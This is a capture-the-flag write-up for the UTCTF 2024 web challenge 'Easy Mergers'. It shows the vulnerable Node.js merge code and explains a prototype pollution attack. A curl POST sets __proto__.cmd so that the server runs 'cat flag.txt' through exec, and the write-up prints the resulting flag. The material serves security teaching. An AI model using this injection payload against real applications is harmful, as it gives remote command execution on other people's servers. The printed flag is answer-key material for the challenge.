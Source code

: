 ```yaml
---
title: "Easy Mergers v0.1"
description: "Tired of getting your corporate mergers blocked by the FTC"
points: 787
solves: 143
author: xHyrOM
---
```


![easy mergers](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-easymergers.png)

For this assignment, we had the page and code for this site. On the site, we can add fields and then create a company or edit it (absorb it).

![easy mergers web](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-easymergers-web.png)

We'll open dev tools to see what the requests look like. We notice a very interesting thing, namely that with `absorbCompany` the request returns a JSON containing `stderr` with the message `/bin/sh: 1: ./merger.sh: Permission denied\n`. This means that the script `merger.sh` is executed on the server.

![easy mergers weird behaviour](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-easymergers-weird-behaviour.png)

Thanks to the fact that we have the source code, we can take a closer look at what's going on:
```js
function isObject(obj) {
    return typeof obj === 'function' || typeof obj === 'object';
}

var secret = {}

const { exec } = require('child_process');

process.on('message', function (m) {
    let data = m.data;
    let orig = m.orig;
    for (let k = 0; k < Math.min(data.attributes.length, data.values.length); k++) {
        if (!(orig[data.attributes[k]] === undefined) && isObject(orig[data.attributes[k]]) && isObject(data.values[k])) {
            for (const key in data.values[k]) {
                orig[data.attributes[k]][key] = data.values[k][key];
            }
        } else if (!(orig[data.attributes[k]] === undefined) && Array.isArray(orig[data.attributes[k]]) && Array.isArray(data.values[k])) {
            orig[data.attributes[k]] = orig[data.attributes[k]].concat(data.values[k]);
        } else {
            orig[data.attributes[k]] = data.values[k];
        }
    }
    cmd = "./merger.sh";

    if (secret.cmd != null) {
        cmd = secret.cmd;
    }

    var test = exec(cmd, (err, stdout, stderr) => {
        retObj = {};
        retObj['merged'] = orig;
        retObj['err'] = err;
        retObj['stdout'] = stdout;
        retObj['stderr'] = stderr;
        process.send(retObj);
    });
    console.log(test);
});
```

Looking at it for the first time, we might not say there would be a bug since there is no way to replace `cmd`. However.... this is not true because of JS. In JS there is something called prototype pollution attack. For example, you can find more [here](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)

So we can exploit this attack and send a POST request with this body:
```json
{
  "attributes": ["__proto__"],
  "values": [{ "cmd": "cat flag.txt" }]
}
```

The `flag.txt` probably exists, since it is also in our codebase.

```sh
#!/bin/bash

curl 'http://guppy.utctf.live:8725/api/absorbCompany/0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en;q=0.9,sk-SK;q=0.8,sk;q=0.7,en-US;q=0.6' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: connect.sid=YOURSID' \
  -H 'Origin: http://guppy.utctf.live:8725' \
  -H 'Referer: http://guppy.utctf.live:8725/' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36' \
  --data-raw '{"attributes":["__proto__"],"values":[{"cmd": "cat flag.txt"}]}' \
  --insecure
```

And we get the flag in the stdout field:
```
utflag{p0lluted_b4ckdoorz_and_m0r3}
```